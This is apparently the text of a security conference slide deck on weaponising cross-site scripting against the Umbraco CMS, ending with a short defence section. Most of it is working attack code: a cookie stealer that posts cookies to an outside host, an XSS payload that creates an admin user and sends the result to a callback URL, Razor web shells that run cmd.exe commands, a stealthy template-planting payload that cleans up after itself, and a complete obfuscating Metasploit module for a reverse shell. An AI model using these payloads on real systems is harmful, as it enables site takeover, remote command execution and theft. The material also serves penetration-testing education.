









🤬
Offensive Umbraco
Part 3 – XSS Weaponisation
Steven Harlandwhoami 👀
- Offensive Security Consultant
- Former Umbraco Developer
- Umbraco Security Contributor
Umbraco ❔
- Content Management System (CMS)
- Built on C#/.NET
- Open source
XSS ❓
- Cross-site scripting
- Code injection vulnerability
- Targets the users of web applications
Demo Environment
Demo: alert(1)
Beyond alert(🔢)
Objective 🥅
Leverage XSS to gain admin access to the Umbraco CMS
Cookie Stealer
<script>
fetch('http://kali.umbsec.icu/', {
method: 'POST',
body: document.cookie
});
</script>
Cookie Stealer Usage
HttpOnly 🛑
Set-Cookie: UMB_UCONTEXT=jlHLF...; path=/; expires=Mon, 03-Apr-2023 14:00:18 GMT; secure; HttpOnlyHttpOnly 🛑
- An attribute that makes cookies inaccessible to JavaScript code
- Renders cookie stealer ineffective
Trying Harder 🎨
- HttpOnly only stops us reading the cookie, but not using it
- We can still make requests to the application and tell the browser to include cookies in those requests
Create User Payload
<script>
// Configuration
const userName = "Tester";
const userEmail = "tester@demo.umbsec.icu";
const userGroups = ["admin"];
const callbackURL = "http://kali.umbsec.icu/";
(async function () {
// Create user object
const data = {
id: -1,
parentId: -1,
name: userName,
email: userEmail,
userGroups: userGroups,
};
// Call create user API
const response = await fetch(
"/umbraco/backoffice/UmbracoApi/Users/PostCreateUser",
{
method: "POST",
body: JSON.stringify(data),
// Ensure cookies (specifically the Umbraco auth cookie) are sent with the request.
credentials: "include",
headers: {
// Umbraco's XSRF token needs to be passed in a custom header.
// This is set in a non-HttpOnly cookie so we can retrieve it in JavaScript.
"x-umb-xsrf-token": getCookie("UMB-XSRF-TOKEN"),
"Content-Type": "application/json",
},
}
);
// Parse response and send to the callback URL
const json = toJSON(fromJSON(await response.text()));
await fetch(callbackURL, {
method: "POST",
body: json,
});
/*
* Helper Functions
*/
function getCookie(name) {
const value = `; ${document.cookie}`;
const parts = value.split(`; ${name}=`);
if (parts.length === 2) return parts.pop().split(";").shift();
}
function fromJSON(responseText) {
// Remove XSSI prevention prefix from response body before parsing
return JSON.parse(responseText.slice(6));
}
function toJSON(object) {
// Pretty print with an indent of 2 spaces
return JSON.stringify(object, null, 2);
}
})();
</script>
Demo: Create User
Objective 🥅
Get command execution on the web server
Code/Command Execution 👩💻
- Umbraco allows templates to be edited in the CMS
- Templates use Razor syntax and can contain C# code, making it trivial to obtain code/command execution
Web Shell Payload
@if (!string.IsNullOrEmpty(Request.QueryString["cmd"]))
{
try
{
using (var process = new System.Diagnostics.Process())
{
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c " + Request.QueryString["cmd"];
process.StartInfo.CreateNoWindow = true;
process.StartInfo.RedirectStandardOutput = true;
process.StartInfo.UseShellExecute = false;
process.Start();
var output = process.StandardOutput.ReadToEnd();
process.WaitForExit();
@output
}
}
catch { }
}
Demo: Web Shell
Weaponisation 🏹
Issues with Previous Approach
- Too many manual steps
- Access to /umbraco/ is often IP restricted
- Large payload
- Bad OpSec
OpSec Fails
OpSec Fails
OpSec Fails
OpSec Fails
OpSec Fails
OpSec Fails
OpSec Fails 🕵️♀️
...
New Objective 🥅
Leverage XSS to get a reverse shell on the web server
Requirements 📋
- Obfuscated XSS payload
- Hosted remotely on burnable infrastructure
-
Do not create a new CMS user
- Use JavaScript to drop Razor shell and trigger command execution
- Leave as few log entries as possible
- Clean up at the end
New Web Shell Payload
@if (!string.IsNullOrEmpty(Request.Headers["Authorization"]))
{
try
{
var cmd = System.Text.Encoding.UTF8.GetString(
System.Convert.FromBase64String(Request.Headers["Authorization"]));
using (var process = new System.Diagnostics.Process())
{
process.StartInfo.FileName = "cmd.exe";
process.StartInfo.Arguments = "/c " + cmd;
process.StartInfo.CreateNoWindow = true;
process.StartInfo.RedirectStandardOutput = true;
process.StartInfo.UseShellExecute = false;
process.Start();
var output = process.StandardOutput.ReadToEnd();
process.WaitForExit();
@output
}
}
catch { }
}
New XSS Payload
// Payload configuration
const cmdBase64 = "";
const umbracoAPI = "/umbraco/backoffice/UmbracoApi";
const razorTemplateName = "Home";
const triggerURL = "/";
const triggerHeaderName = "Authorization";
// Get all templates
getJSON(umbracoAPI + "/Template/GetAll").then(function (allTemplates) {
// Get template metadata by name
const templateMetadata = allTemplates.find(function (template) {
return template.name.includes(razorTemplateName);
});
// Get full template
getJSON(umbracoAPI + "/Template/GetById?id=" + templateMetadata.id).then(
function (template) {
// Save original template. It will be restored later on
const originalTemplate = template.content;
// Add payload to the end of the template
template.content += generateRazor();
// Save template
postJSON(umbracoAPI + "/Template/PostSave", template).then(function (
savedTemplate
) {
// Hit URL to trigger command execution
const triggerHeaders = {};
triggerHeaders[triggerHeaderName] = cmdBase64;
fetch(triggerURL, {
headers: triggerHeaders,
}).then(function (response) {
// Reset to original template
template.content = originalTemplate;
postJSON(umbracoAPI + "/Template/PostSave", template);
});
});
}
);
});
/*
* Helper Functions
*/
function getCookie(name) {
const value = "; " + document.cookie;
const parts = value.split("; " + name + "=");
if (parts.length === 2) return parts.pop().split(";").shift();
}
function getJSON(url) {
return fetch(url, {
method: "GET",
credentials: "include",
headers: {
"x-umb-xsrf-token": getCookie("UMB-XSRF-TOKEN"),
},
})
.then(function (response) {
return response.text();
})
.then(function (text) {
return fromJSON(text);
});
}
function postJSON(url, data) {
return fetch(url, {
method: "POST",
body: JSON.stringify(data),
credentials: "include",
headers: {
"x-umb-xsrf-token": getCookie("UMB-XSRF-TOKEN"),
"Content-Type": "application/json",
},
})
.then(function (response) {
return response.text();
})
.then(function (text) {
return fromJSON(text);
});
}
function fromJSON(responseText) {
// Remove XSSI prevention prefix from response body before parsing
return JSON.parse(responseText.slice(6));
}
function generateRazor() {
return (
'\n@if (!string.IsNullOrEmpty(Request.Headers["' +
triggerHeaderName +
'"]))' +
"{" +
"try" +
"{" +
"var cmd = System.Text.Encoding.UTF8.GetString(" +
'System.Convert.FromBase64String(Request.Headers["' +
triggerHeaderName +
'"]));' +
"using (var process = new System.Diagnostics.Process())" +
"{" +
'process.StartInfo.FileName = "cmd.exe";' +
'process.StartInfo.Arguments = "/c " + cmd;' +
"process.StartInfo.CreateNoWindow = true;" +
"process.StartInfo.RedirectStandardOutput = true;" +
"process.StartInfo.UseShellExecute = false;" +
"process.Start();" +
"}" +
"}" +
"catch { }" +
"}"
);
}
Metasploit Module
class MetasploitModule < Msf::Exploit::Remote
Rank = NormalRanking
include Msf::Exploit::Remote::HttpServer::HTML
include Msf::Exploit::JSObfu
def initialize(info = {})
super(
update_info(
info,
'Name' => 'Umbraco CMS Remote Command Execution via XSS',
'Description' => %q{
This module hosts an XSS payload that abuses Umbraco's
Razor templates to execute commands.
},
'License' => MSF_LICENSE,
'Author' => ['stvnhrlnd'],
'Targets' => [
['Umbraco 8 on Windows', {
'Arch' => ARCH_CMD,
'Platform' => 'win'
}]
],
)
)
register_options([
OptString.new('BACKOFFICE_API',
[ true, 'The path to the Umbraco backoffice API', '/umbraco/backoffice/UmbracoApi' ]),
OptString.new('RAZOR_TEMPLATE',
[ true, 'The name of the Razor template to use for code execution', 'Home' ]),
OptString.new('TRIGGER_URL',
[ true, 'The URL of the page to request to trigger the command', '/' ]),
OptString.new('TRIGGER_HEADER',
[ true, 'The name of the HTTP header to trigger the command', 'Authorization' ])
])
end
def exploit
print_status('Obfuscating JavaScript...')
@js_ofs = js_obfuscate(generate_js)
super
end
def on_request_uri(cli, _request)
print_status('Serving XSS payload...')
send_response(cli, @js_ofs, headers = {
'Content-Type' => 'text/javascript'
})
end
def generate_js
cmdBase64 = Base64.strict_encode64(payload.encoded)
%Q~
// Payload configuration
const cmdBase64 = "#{cmdBase64}";
const umbracoAPI = "#{datastore['BACKOFFICE_API']}";
const razorTemplateName = "#{datastore['RAZOR_TEMPLATE']}";
const triggerURL = "#{datastore['TRIGGER_URL']}";
const triggerHeaderName = "#{datastore['TRIGGER_HEADER']}";
// Get all templates
getJSON(umbracoAPI + "/Template/GetAll").then(function (allTemplates) {
// Get template metadata by name
const templateMetadata = allTemplates.find(function (template) {
return template.name.includes(razorTemplateName);
});
// Get specific template
getJSON(umbracoAPI + "/Template/GetById?id=" + templateMetadata.id).then(
function (template) {
// Save original template. It will be restored later on
const originalTemplate = template.content;
// Add payload to the end of the template
template.content += generateRazor();
// Save template
postJSON(umbracoAPI + "/Template/PostSave", template).then(function (
savedTemplate
) {
// Hit URL to trigger command execution
const triggerHeaders = {};
triggerHeaders[triggerHeaderName] = cmdBase64;
fetch(triggerURL, {
headers: triggerHeaders,
}).then(function (response) {
// Reset to original template
template.content = originalTemplate;
postJSON(umbracoAPI + "/Template/PostSave", template);
});
});
}
);
});
function getCookie(name) {
const value = "; " + document.cookie;
const parts = value.split("; " + name + "=");
if (parts.length === 2) return parts.pop().split(";").shift();
}
function getJSON(url) {
return fetch(url, {
method: "GET",
credentials: "include",
headers: {
"x-umb-xsrf-token": getCookie("UMB-XSRF-TOKEN"),
},
})
.then(function (response) {
return response.text();
})
.then(function (text) {
return fromJSON(text);
});
}
function postJSON(url, data) {
return fetch(url, {
method: "POST",
body: JSON.stringify(data),
credentials: "include",
headers: {
"x-umb-xsrf-token": getCookie("UMB-XSRF-TOKEN"),
"Content-Type": "application/json",
},
})
.then(function (response) {
return response.text();
})
.then(function (text) {
return fromJSON(text);
});
}
function fromJSON(responseText) {
// Remove XSSI prevention prefix from response body before parsing
return JSON.parse(responseText.slice(6));
}
function generateRazor() {
return (
'\\n@if (!string.IsNullOrEmpty(Request.Headers["' +
triggerHeaderName +
'"]))' +
"{" +
"try" +
"{" +
"var cmd = System.Text.Encoding.UTF8.GetString(" +
'System.Convert.FromBase64String(Request.Headers["' +
triggerHeaderName +
'"]));' +
"using (var process = new System.Diagnostics.Process())" +
"{" +
'process.StartInfo.FileName = "cmd.exe";' +
'process.StartInfo.Arguments = "/c " + cmd;' +
"process.StartInfo.CreateNoWindow = true;" +
"process.StartInfo.RedirectStandardOutput = true;" +
"process.StartInfo.UseShellExecute = false;" +
"process.Start();" +
"}" +
"}" +
"catch { }" +
"}"
);
}
~
end
end
Demo: XSS to Reverse Shell
Defence 🛡️
Defence in Depth 🥞
- XSS Prevention
- Content Security Policy
- CMS Permissions
- File/Folder Permissions
- ...
XSS Prevention 🚫
-
Validate input
- Reject inputs containing dangerous characters
-
Sanitise input
- Accept input but attempt to strip out dangerous characters
-
Encode output
- Prevent raw HTML/JavaScript code being sent to the browser
https://portswigger.net/web-security/cross-site-scripting/preventing
Content Security Policy 🚓
- HTTP header or meta tag
- Tells browsers where it's safe to load resources from
Content-Security-Policy: connect-src 'self';

https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src
CMS Permissions 🔓
- Use principle of least privilege
- Restrict use of admin accounts
File/Folder Permissions 🔓
-
Folders containing executable code should be read-only for the application pool user
- ~/bin/
- ~/Views/
- ~/App_Code/
https://our.umbraco.com/Documentation/Fundamentals/Setup/Server-Setup/permissions
Takeaways 🍔🍟
- We can do better than
alert(1) - HttpOnly is just one layer of defence
- Think about what functionality the application provides and if it can be abused
- You are only limited by the capabilities of JavaScript – get creative!
- Package exploits for reuse!

@stvnhrlnd